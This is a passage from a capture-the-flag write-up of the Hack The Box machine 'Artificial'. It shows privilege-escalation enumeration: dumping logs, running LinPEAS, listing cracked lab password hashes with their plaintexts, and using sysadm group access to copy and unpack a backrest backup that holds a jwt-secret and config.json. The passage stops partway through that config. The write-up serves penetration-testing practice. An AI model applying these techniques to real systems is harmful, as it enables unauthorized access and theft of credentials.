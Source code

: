 ```a
gael@artificial:/opt/backrest$ cat processlogs/* >> ~/dump.txt
cat: processlogs/backrest.log: Permission denied
gael@artificial:/opt/backrest$ cat tasklogs/* >> ~/dump.txt
```
- Not much luck here.

### `LinPEAS`
- This is starting to get desperate.
- It found some CVEs, I went down some rabbit holes, but ultimately nothing.

### Passwords
- Now you know I'm desperate.
- If this doesn't work, I'm finding a hint. 
- I got one more password:
```a
gael:c99175974b6e192936d97224638a34f8:mattp005numbertwo           
royer:bc25b1f80f544c0ab451c02a3dca9fc6:marwinnarak043414036
```
- I can try to login with this on backrest... fail.

### FINALLY
- So my user is in the `sysadm` group... there's a file where only `root` and members of this group have permissions. It's a backup of the backrest service located in `/var/backups/backrest_backup.tar.gz`!
```a
[lkotlus@work] [~/Nerd/htb/artificial]    
(bash)> scp gael@artificial.htb:/var/backups/backrest_backup.tar.gz .  
gael@artificial.htb's password:    
backrest_backup.tar.gz
[lkotlus@work] [~/Nerd/htb/artificial]    
(bash)> tar -xvf backrest_backup.tar.gz    
backrest/  
backrest/restic  
backrest/oplog.sqlite-wal  
backrest/oplog.sqlite-shm  
backrest/.config/  
backrest/.config/backrest/  
backrest/.config/backrest/config.json  
backrest/oplog.sqlite.lock  
backrest/backrest  
backrest/tasklogs/  
backrest/tasklogs/logs.sqlite-shm  
backrest/tasklogs/.inprogress/  
backrest/tasklogs/logs.sqlite-wal  
backrest/tasklogs/logs.sqlite  
backrest/oplog.sqlite  
backrest/jwt-secret  
backrest/processlogs/  
backrest/processlogs/backrest.log  
backrest/install.sh
```
- So now I have access to every single config. This is exactly what I need! 
```a
[lkotlus@work] [.../artificial/backrest/.config/backrest]    
(bash)> cat config.json    
{  
 "modno": 2,  
 "version": 4,  
 "instance": "Artificial",  
 "auth": {  
   "disabled": false,  
   "users": [  
     {  
```